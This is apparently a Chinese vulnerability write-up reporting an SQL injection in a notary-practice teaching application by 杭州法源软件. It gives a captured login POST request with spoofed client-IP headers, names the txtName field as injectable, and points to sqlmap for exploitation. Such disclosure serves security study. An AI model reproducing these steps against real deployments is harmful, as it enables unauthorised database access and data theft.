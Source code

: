 # 杭州法源软件 公证实务教学软件 SQL注入漏洞

## 漏洞描述

杭州法源软件 公证实务教学软件 存在SQL注入漏洞

## 漏洞影响

```
杭州法源软件 公证实务教学软件
```

## 网络测绘

FOFA暂时未收录任何网站

## 漏洞复现

登录页面如下

![](images/202202101856282.png)

登录抓取请求包



```plain
POST /JusNotary/ HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 219
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=54zwf05sd1g4zyfpiuxxdmuc
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUKMTE5NTI5NDc1Ng8WAh4TVmFsaWRhdGVSZXF1ZXN0TW9kZQIBZGTTkYMK0k4DlIElq0ua0zvxEhpFH8rCzVrUscEhlVc9pw%3D%3D&__VIEWSTATEGENERATOR=1B0004A3&txtName=123&txtPwd=123&btnSubmit=+
```



其中注入的参数为 POST数据中的 **txtName** 参数, 保存为文件使用 Sqlmap跑一下



![](images/202202101856878.png)